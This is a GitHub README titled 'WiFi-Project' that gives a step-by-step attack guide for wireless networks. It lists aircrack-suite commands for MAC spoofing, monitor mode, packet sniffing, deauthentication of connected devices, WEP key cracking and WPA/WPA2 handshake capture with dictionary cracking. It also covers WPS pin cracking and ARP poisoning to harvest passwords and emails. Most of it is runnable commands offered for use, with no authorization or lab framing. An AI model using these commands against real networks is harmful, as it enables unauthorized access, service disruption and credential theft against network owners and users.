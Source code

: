 # WiFi-Project

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ## Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ## Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
This attack will always work ! The only way around it is to change the MAC address of the target machine.

* ## Gaining access

1. WEP cracking : (~100% success)
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets 
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking : (~40% success)
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           
   Step 2:
           <br/> Catch the 4-way handshake (EAPOL) using "airodump-ng" of a client (re)connecting.
           <br/>
           <br/> In a straight forward way, the handshake doesn't contain data that helps recover the key.
           <br/> However, it contains data that can be used to compute if a key is valid or not !
           <br/> Useful information in the handshake - Message Integrity Code (MIC): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
           
   Step 3: 
           <br/> Start guessing the router's passphrase by computing the PTK.
           <br/> The passphrase generates the PSK --> the PSK generates the PMK --> the PMK generates the PTK.
           <br/>
           <br/> Create a wordlist/dictionnary:
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           
   ```
   aircrack-ng file_containing_handshake.cap -w word_list
   ```
   Step 4 : 
           <br/> The aircrack-ng command will generate new MICs from the wordlist and compare each of them to the (2nd message) MIC of the 4-way handshake.
           <br/> if(new_MIC == MIC_handshake), then the passphrase generating this MIC is the router's password !
           
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method:
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ## Post-connection attacks

![https_bypass_blur](https://user-images.githubusercontent.com/64968597/134031635-1eb1f336-2dc0-4400-8f64-566ddcf44f2f.png)

1. ARP poisoning using bettercap, arpspoof, etc.:
   <br/> The captured packets are then easily analysed (using Wireshark) to gather passwords, emails, usernames, etc.
